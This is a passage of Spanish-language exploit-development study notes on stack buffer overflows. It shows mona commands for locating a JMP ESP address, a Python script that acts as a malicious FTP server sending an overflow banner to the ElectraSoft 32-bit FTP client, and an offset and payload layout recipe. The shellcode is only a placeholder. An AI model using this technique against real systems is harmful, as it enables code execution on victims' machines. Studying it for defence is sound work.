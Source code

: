     ```
      !mona jmp -r esp 
      !mona jmp -r esp -m kernel = if we wanna to use specific module
    -r = register
    -m = module
    ```
* Recuerde que estamos trabajando en sistemas little-endian. Así que tenemos que revertir la dirección. en este caso: 0x77267D3B = \x3B\x7D\x26\x77
* Después de obtener la dirección de un ESP de llamada, necesitamos crear una carga útil que explote el vuln BoF.

> Descripción general: Necesitamos sobrescribir el EIP para que apunte a nuestro JMP ESP, mientras que el ESP se ha actualizado para apuntar a los NOP al principio de nuestro shellcode

### Explotación de un desbordamiento de búfer en el mundo real <a href="#exploiting-a-real-world-buffer-overflow" id="exploiting-a-real-world-buffer-overflow"></a>

* FTP de 32 bits de ElectraSoft

```

#!/usr/bin/python

from socket import *

payload = "Here we will insert the payload"

s = socket(AF_INET, SOCK_STREAM)
s.bind(("127.0.0.1", 21))
s.listen(1)
print "[+] Listening on [FTP] 21"
c, addr = s.accept()

print "[+] Connection accepted from: %s" % (addr[0])

c.send("220 "+payload+"\r\n")
c.recv(1024)
c.close()
print "[+] Client exploited !! quitting"
s.close()

```

> Para que esto funcionara, teníamos que ejecutar en la misma caja tanto el script como el servidor vuln

#### BOF101 <a href="#bof101" id="bof101"></a>

> enviar fuzz para bloquear la aplicación
>
> ```
> !mona po <EIP>
> offset = 989
> jmp esp = 77267d3b = \x3B\x7D\x26\x77
> payload = junk*<offset> + jmp esp value + NOPs + shell
> ```
